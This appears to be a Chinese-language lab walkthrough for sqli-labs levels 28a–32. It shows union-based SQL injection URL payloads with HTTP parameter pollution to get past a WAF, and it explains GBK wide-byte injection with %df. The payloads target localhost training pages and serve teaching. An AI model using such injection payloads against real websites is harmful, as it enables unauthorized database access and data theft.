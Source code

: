 
## Test 28a

这关与 28 基本一样，只是过滤条件少了几个。



# ---接下来三个题都是双服务器的注入，简单的绕过WAF

强烈建议看看:原理参考(https://www.jianshu.com/p/46cb6c354de5)

## Test 29

原理懂了就好做了，首先判断闭合，加入--+后回显正确，说明就是最最最简单的单引号闭合

![在这里插入图片描述](https://img-blog.csdnimg.cn/0a19bd884d43465595cd64152dd91cf7.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

这里构造一个查询数据库的payload：

```
http://localhost/Less-29/index.jsp?id=1&id=-2' union select 1,2,concat(select database())--+
```

剩下的更改union后的查询句句就可以了

## Test 30

和29一样，闭合条件变成了双引号"

查库：

```
http://localhost/Less-29/index.jsp?id=1&id=-2" union select 1,2,concat(select database())--+
```

## Test 31

闭合条件变成了双引号加一个括号，其他同上

查库：

```
http://localhost/Less-29/index.jsp?id=1&id=-2") union select 1,2,concat(select database())--+
```

## Test 32（get型宽字节注入）

判断闭合

![在这里插入图片描述](https://img-blog.csdnimg.cn/34e19ccbc24b459eb614598bbeddbb17.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

但是发现我们的'直接变成了\

查看源码，发现这里用的是GBK编码形式，而当数据库的编码为GBK时，可使用宽字节注入，方法就是在单引号前先加一个%df，就能使单引号正常使用

![在这里插入图片描述](https://img-blog.csdnimg.cn/9178621deb834bf1b322a4bb981e8c55.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_16,color_FFFFFF,t_70,g_se,x_16)

